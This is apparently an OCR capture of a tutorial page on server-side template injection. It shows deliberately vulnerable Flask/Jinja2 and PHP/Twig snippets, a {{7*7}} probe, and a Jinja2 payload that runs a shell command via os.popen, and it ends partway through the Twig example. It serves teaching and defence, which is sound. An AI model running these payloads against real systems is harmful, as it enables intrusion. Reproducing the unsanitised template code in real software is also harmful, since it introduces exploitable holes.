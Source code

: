 ## 📦 Why It Happens

Many web frameworks allow dynamic rendering of HTML using templates (e.g., `{{ name }}`). If user input gets passed into the template context **without sanitizing**, an attacker can inject malicious template code.

---

## 💥 Real Examples in Different Template Engines

---

### 🔶 1. **Python Jinja2 (Flask)**

**Vulnerable code:**

```python
from flask import Flask, request, render_template_string

@app.route('/greet')
def greet():
    name = request.args.get('name', '')
    return render_template_string(f"Hello {name}")
```

**Payload:**

```
/greet?name={{7*7}}
```

**Result:**

```
Hello 49
```

**Malicious payload (potential RCE):**

```jinja2
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

---

### 🟨 2. **PHP with Twig**

**Vulnerable code:**

```php
$tpl = new \Twig\Environment(...);
echo $tpl->render('Hello ' . $_GET['name']);
```

**Payload:**

```
?name={{7*7}}
```
